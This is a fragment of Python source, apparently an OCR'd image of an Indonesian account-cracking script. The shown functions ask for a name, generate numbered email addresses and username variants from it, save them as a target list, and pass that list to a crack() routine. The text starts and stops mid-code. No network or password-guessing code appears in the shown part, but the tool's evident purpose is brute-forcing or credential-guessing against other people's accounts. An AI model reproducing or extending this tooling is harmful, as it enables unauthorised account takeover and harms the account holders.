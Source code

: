                 if '.' in __query__:_query_ = __query__;nama = __query__.replace('.',' ')
                elif '_' in __query__:_query_ = __query__;nama = __query__.replace('_',' ')
                elif '-' in __query__:_query_ = __query__;nama = __query__.replace('-',' ')
                else:_query_ = __query__.replace(' ','');nama = __query__
                email = ('%s%s@%s'%(_query_,str(_hitung_email_full_),_domain_));_azimvau_dapunta_(_file_,'a+').write('%s•%s\n'%(email,nama));_hitung_email_full_ += 1
            except:continue
    except:
        jalan('%s [%s!%s] %sTHERE IS AN ERROR'%(M,P,M,M))
        time.sleep(2)
        menu()
    _buka_file_ = _azimvau_dapunta_(_file_,'r').read().splitlines()
    print("%s [%s•%s] %sTOTAL ID : %s%s"%(H,P,H,K,H,str(len(_buka_file_))))
    return crack(_file_)


def dump_username():
    print("%s [%s•%s] %sEXAMPLE : %sahmadkurd871"%(H,P,H,K,H));_query_ = _cici_azimvau_("%s [%s•%s] %sENTER NAME : "%(H,P,H,K)).lower()
    if len(_query_) < 3:jalan('%s [%s!%s] %sNAME MUST BE MORE THAN 2 DIGITS'%(M,P,M,M));time.sleep(2);menu()
    _limit_awal_ = int(_cici_azimvau_("%s [%s•%s] %sENTER STARTING NUMBER (EX: 1) : "%(H,P,H,P)));_limit_akhir_= int(_cici_azimvau_("%s [%s•%s] %sENTER ENDING NUMBER (EX: 1000): "%(H,P,H,P)));_file_ = (_query_+".json").replace(" ","_")
    try:os.remove(_file_)
    except:pass
    exec_username(_query_,_limit_awal_,_limit_akhir_,_file_)
def exec_username(__query__,_limit_awal_,_limit_akhir_,_file_):
    _hitung_email_1_ = _limit_awal_+1;_hitung_email_2_ = _limit_awal_+1;_hitung_email_3_ = _limit_awal_+1;_hitung_email_full_ = _limit_awal_+1
    if ' ' in __query__:
        try:_query_1_ = __query__.split(' ')[0]
        except:pass
        try:_query_2_ = __query__.split(' ')[1]
        except:pass
        try:_query_3_ = __query__.split(' ')[2]
        except:pass
    elif '.' in __query__:
        try:_query_1_ = __query__.split('.')[0]
        except:pass
        try:_query_2_ = __query__.split('.')[1]
        except:pass
        try:_query_3_ = __query__.split('.')[2]
        except:pass
    elif '_' in __query__:
        try:_query_1_ = __query__.split('_')[0]
        except:pass
        try:_query_2_ = __query__.split('_')[1]
        except:pass
        try:_query_3_ = __query__.split('_')[2]
        except:pass
    elif '-' in __query__:
        try:_query_1_ = __query__.split('-')[0]
        except:pass
        try:_query_2_ = __query__.split('-')[1]
        except:pass
        try:_query_3_ = __query__.split('-')[2]
        except:pass
    else:
        try:_query_1_ = __query__
        except:pass
    try :
        for _jumlah_ in range(_limit_awal_,_limit_akhir_):